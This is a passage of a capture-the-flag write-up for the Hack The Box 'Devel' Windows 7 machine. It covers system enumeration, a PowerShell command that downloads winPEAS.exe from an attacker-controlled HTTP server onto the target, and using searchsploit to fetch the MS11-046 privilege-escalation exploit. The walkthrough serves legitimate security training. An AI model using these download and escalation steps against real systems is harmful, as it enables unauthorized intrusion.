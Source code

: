 #### `systeminfo`

![systeminfo](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/devel/systeminfo.png)

The target machine is **Microsoft Windows 7 Entreprise** server (version &rarr; 6.1.7600) with an **x86** architecture (32 bits). 

#### Download and execute `winPEAS.exe`

Let's go to a word writable directory (`C:\Windows\System32\spool\drivers\color`) and try to run [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

```console
C:\> cd \windows\system32\spool\drivers\color
C:\Windows\System32\spool\drivers\color>echo amirr0r > test
echo amirr0r > test
C:\Windows\System32\spool\drivers\color>type test
type test
amirr0r
```

Native wget in powershell:

```powershell
c:> powershell -command "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.14:8000/winPEAS.exe', 'c:\Windows\System32\spool\drivers\color\winPEAS.exe')"
```

![alternative to wget](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/devel/wget.png)

#### Looking for exploits

Unfortunately, I didn't get any output after executing `winPEAS.exe` so I directly looked for exploits on **Microsoft Windows 7**:

![google search exploits windows 7](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/devel/google-search-windows-7.png)

![MS11-046](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/devel/exploitDB.png)

#### Compiling exploits

1. Getting exploit based on the **EDB-ID** (**E**xploit **D**ataBase **ID**entifier):

```console
$ searchsploit -m 40564
  Exploit: Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)
      URL: https://www.exploit-db.com/exploits/40564
     Path: /usr/share/exploitdb/exploits/windows_x86/local/40564.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /root/htb/machines/Windows/Devel/40564.c
```

2. Install `apt install mingw-w64`
